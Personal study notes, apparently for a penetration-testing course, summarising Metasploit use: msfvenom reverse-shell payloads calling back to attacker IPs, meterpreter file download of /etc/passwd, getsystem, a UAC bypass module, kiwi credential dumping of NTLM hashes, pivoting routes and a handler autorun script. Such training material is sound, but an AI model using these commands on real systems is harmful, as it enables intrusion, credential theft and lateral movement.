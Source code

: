 # Metasploit Intro

## Rules:
- Allow in ALL machines
    ```
    multi/handler
    msfvenom (excluding meterpreter payload),
    pattern_create 
    pattern_offset 
    ```
- Allow in SINGLE machines
  ```
    meterpreter
    auxiliary
    post
    exploit
    scan
  ```

## Basics
- ``` workspace -a {new workspace name}``` add | delete ``` -d ```
- ``` db_nmap ``` Nmap inside Metasploit 
- ``` hosts ``` list of all discovered hosts up to this point
- ``` services -p {port}``` show all discovered services

## Auxiliary Module (輔助)
- ``` search type:auxiliary {module name} ``` search
- ``` use {module_id} ``` load certain module
- ``` info ``` show info
- ``` show options ``` 
- ``` unset RHOSTS ``` reset param
- ``` run ```
- ``` vulns```

## Exploit Module
- ``` search type:exploit {module name} ``` search
- ``` set payload payload/linux/x64/shell_reverse_tcp ```
- when success will have shell created -> move to background with ctrl z
- show sessions in background ``` sessions -l ``` 
- kill sessions ``` session -k {id} ``` | ``` session -K ``` kill all
- reset workspace wont kill sessions
- Change target(OS) ``` set target {0 or 1} ``` 0 = unix | 1 = windows

# Payloads
## Staged vs Non-Staged
- ``` / ``` = Staged & ``` _ ``` Stagless for name
- Staged : 2 step to bypass AV (send smaller packet first, then smuggle the payload thru another step)
- Stageless : 1 step (large & one take) 

## meterpreter payload
- multiple cmd packaged for staged one & not directly have a Remote shell ( can do other stuff)
- ```  sysinfo ``` 
- ``` getuid ``` get UID lolll
- ``` shell ``` generate shell 
- ``` channel -l ``` show all active channel | ``` channel -i {id} ``` use certain channel
- ``` download /etc/passwd ``` = scp
- ``` lcat ``` = meterpreter version cat
- ``` upload /usr/bin/unix-privesc-check /tmp/ ``` = scp
- ``` ls {dir}``` = ls loll
- ``` search -f {fileName} ```
- ``` getsystem ``` auto priv esc
- ``` ps ``` show all process
- ``` bg ``` background the session
  
## Executable Payloads (exe,ps1,bin)
### msfvenom
- https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom 
- ``` msfvenom -l payloads --platform {windows/php/etc...} --arch x64 ``` show all payloads with criteria
- ``` msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe ``` example of generating payload

### metasploit handler in kali
- some payload req msf to connect & ncat cant handle
- ``` msf6> use multi/handler ```


# Post Exploit for windows
- Module = Post
## Migrate to other process
  1. throw reverse shell (``` msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe ```) to victim 
  2. connect back kali by multi/handler e.g.(``` set payload windows/x64/meterpreter_reverse_https ```)
  3. try list all process ``` ps ```
  4. ``` migrate {pid} ``` sometimes not successful then try his parent(PPID) with same user 
## UAC
- ```msf6> search UAC ``` 
  1. once get the shell ``` meterpreter > shell ```
  2. windows ``` powershell -ep bypass ```
  3. check UAC level: ``` Import-Module NtObjectManager ``` then ``` Get-NtTokenIntegrityLevel ```
  4. useful UAC bypass : ``` use exploit/windows/local/bypassuac_sdclt ```
  5. bind to the session that we previous made ( can recheck with session list cmd ) then ``` set session {sid} ```

### Load mikikaze
  1. Req admin OR UAC High priv
  2. ``` load kiwi ``` load & ``` help ``` see all cmd 
  3. ``` creds_msv ``` get NTLM/SHA-1 hashs of users

### Use other post script for the session
 - e.g. enum hosts file
 - ``` use post/windows/gather/enum_hostfile ``` then bind to session we create before ``` set session {sid}```

## Pivoting 
### Manual route
- Check another ip in other subnet e.g. 172.16.155.18 -> subnet=172.16.155.0 (probably, need see /??)
- port forwardingset in routing table ``` route add 172.16.{subnet}.0/24 {session_id} ```
- print route table assigned ``` route print ```
- test with port scan module e.g. ``` use auxiliary/scanner/portscan/tcp ``` to see if routing success
- terminate all routes ``` route flush ``` | remove 1 only ``` route remove {ip}/24 {session_id} ```
### Auto Route
- ``` use multi/manage/autoroute ``` and then bind to the shell session we made before

### Proxy
- ``` use auxiliary/server/socks_proxy ``` & ``` set SRVHOST 127.0.0.1 ``` (only allow host to call seems more safe) & ``` set SRVPORT 9999 ```
-  edit ```/etc/proxychains4.conf``` to the one we set e.g. ``` socks5 {SRVHOST} {SRVPORT}``` (entry point of the proxy)
-  

# Auto fucking metasploit
- write all command of metasploit and save in a script with ruby : autoFuck.rc (maybe)
  e.g. 
    ```
      use exploit/multi/handler
      set PAYLOAD windows/meterpreter_reverse_https
      set LHOST 192.168.45.154
      set LPORT 6969
      set AutoRunScript post/windows/manage/migrate
      set ExitOnSession false
      run -z -j
    ```
- ``` sudo msfconsole -r {script name}.rc ```
